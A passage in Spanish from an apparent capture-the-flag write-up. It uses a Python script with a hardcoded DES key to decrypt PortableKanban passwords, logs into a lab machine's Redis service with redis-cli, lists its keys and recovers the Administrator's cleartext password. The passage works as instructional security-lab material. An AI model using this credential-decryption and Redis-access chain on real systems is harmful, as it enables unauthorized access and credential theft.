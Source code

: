 Creamos una variable "hash" y añadimos la contraseña cifrada que hemos encontrado.

Ejecutamos el scritp con python3:

```bash
> python3 portable_kanban.py
Password: kidvscat_yes_kidvscat
```

Obtenemos la contraseña de lo que parece ser la autenticación para Redis, el cual hemos visto que se trata como de un tipo de base de datos en memoria de tipo hash o clave-valor.

- [https://blog.bi-geek.com/redis-para-principiantes/](https://blog.bi-geek.com/redis-para-principiantes/)

En Kali o Parrot, tenemos disponible de forma nativa la herramienta de redis-cli, el cual nos permite interactuar con el servicio Redis de un equipo remoto:

```bash
> redis-cli -h 10.129.173.50 -a kidvscat_yes_kidvscat
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.

10.129.173.50:6379>
```

Sitaxis:

- h <hostname> Server hostname (default: 127.0.0.1)
- a <password> Password to use when connecting to the server.

Solo nos queda enumerar las posibles bases de datos, tablas, etc.

```bash
10.129.173.50:6379> keys *
1) "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
2) "pk:ids:MetaDataClass"
3) "pk:ids:User"
4) "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"

10.129.173.50:6379> get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
"{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"
```

Uuhh, vemos que se trata de otra contraseña cifrada del usuario Administrator y muy parecida al hash de la contraseña anterior que nos ha permitido obtener las credenciales de Redis, por lo que volvemos al script que hemos modificado y le asignamos como valor a la variable hash que hemos creado está última contraseña cifrada:

```bash
> cat -p portable_kanban.py

import json
import base64
from des import * #python3 -m pip install des
import sys

hash = 'Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi'

hash = base64.b64decode(hash.encode('utf-8'))
key = DesKey(b"7ly6UznJ")
print("Password: " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))

> python3 portable_kanban.py
Password: kidvscat_admin_@123
```
